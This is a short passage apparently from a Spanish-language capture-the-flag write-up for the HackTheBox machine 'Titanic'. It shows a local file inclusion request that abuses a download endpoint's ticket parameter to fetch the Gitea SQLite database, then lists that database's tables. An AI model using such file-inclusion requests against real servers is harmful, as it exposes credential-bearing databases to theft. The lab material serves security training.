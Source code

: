 Usamos el lfi

```http
http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db
```

```sqlite
sqlite3 gitea.db 
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
access                     oauth2_grant             
access_token               org_user                 
action                     package                  
action_artifact            package_blob             
action_run                 package_blob_upload      
action_run_index           package_cleanup_rule     
action_run_job             package_file             
action_runner              package_property         
action_runner_token        package_version          
action_schedule            project                  
action_schedule_spec       project_board            
action_task                project_issue            
action_task_output         protected_branch         
action_task_step           protected_tag            
action_tasks_version       public_key               
action_variable            pull_auto_merge          
app_state                  pull_request             
attachment                 push_mirror              
auth_token                 reaction                 
badge                      release                  
branch                     renamed_branch           
collaboration              repo_archiver            
comment                    repo_indexer_status      
commit_status              repo_redirect            
commit_status_index        repo_topic               
commit_status_summary      repo_transfer            
dbfs_data                  repo_unit                
dbfs_meta                  repository               
deploy_key                 review                   
email_address              review_state             
email_hash                 secret                   
external_login_user        session                  
follow                     star                     
gpg_key                    stopwatch                
gpg_key_import             system_setting           
hook_task                  task                     
issue                      team                     
issue_assignees            team_invite              
issue_content_history      team_repo                
issue_dependency           team_unit                
issue_index                team_user                
issue_label                topic                    
issue_user                 tracked_time             
issue_watch                two_factor               
label                      upload                   
language_stat              user                     
lfs_lock                   user_badge               
lfs_meta_object            user_blocking            
login_source               user_open_id             
milestone                  user_redirect            
mirror                     user_setting             
notice                     version                  
notification               watch                    
oauth2_application         webauthn_credential      
```